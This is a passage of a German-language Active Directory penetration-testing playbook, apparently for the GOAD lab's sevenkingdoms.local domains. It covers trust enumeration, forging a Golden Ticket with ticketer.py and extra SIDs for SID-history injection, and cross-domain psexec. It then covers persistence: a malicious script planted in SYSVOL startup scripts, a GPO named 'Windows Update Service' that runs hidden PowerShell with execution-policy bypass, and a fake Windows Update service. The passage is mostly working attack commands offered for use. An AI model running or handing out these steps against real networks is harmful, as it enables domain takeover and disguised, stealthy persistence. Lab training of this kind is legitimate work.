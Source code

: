 #### Trust-Beziehungen identifizieren
```powershell
# In PowerShell-Session
PS> Get-ADTrust -Filter *
PS> nltest /trusted_domains
PS> Get-DomainTrust
```

#### SID-History-Injection (falls möglich)
```bash
# Mit Golden Ticket für Parent-Domain
ticketer.py -nthash <krbtgt_hash> -domain-sid <child_domain_sid> -extra-sid <enterprise_admins_sid> -domain north.sevenkingdoms.local administrator

# Cross-Domain-Zugriff testen
psexec.py -k -no-pass administrator@kingslanding.sevenkingdoms.local
```

---

## Phase 7: Advanced Persistence

### 7.1 GPO-basierte Persistence

#### Malicious GPO erstellen (falls Admin-Rechte)
```bash
# SYSVOL-Manipulation
smbclient //192.168.20.11/SYSVOL -U administrator -c "put malicious_script.ps1 sevenkingdoms.local/Policies/{GPO-GUID}/Machine/Scripts/Startup/"

# GPO mit PowerShell konfigurieren
```

```powershell
# GPO für Startup-Script
New-GPO -Name "Windows Update Service" -Domain north.sevenkingdoms.local
Set-GPRegistryValue -Name "Windows Update Service" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "WindowsUpdateCheck" -Type String -Value "powershell.exe -WindowStyle Hidden -exec bypass -file \\winterfell.north.sevenkingdoms.local\SYSVOL\north.sevenkingdoms.local\scripts\update.ps1"
```

### 7.2 Service-basierte Persistence

#### Windows-Service Creation
```powershell
# Via WinRM/PowerShell
PS> New-Service -Name "WindowsUpdateService" -BinaryPathName "C:\Windows\System32\svchost.exe -k netsvcs" -Description "Windows Update Background Service"
PS> Set-Service -Name "WindowsUpdateService" -StartupType Automatic
PS> Start-Service -Name "WindowsUpdateService"
```
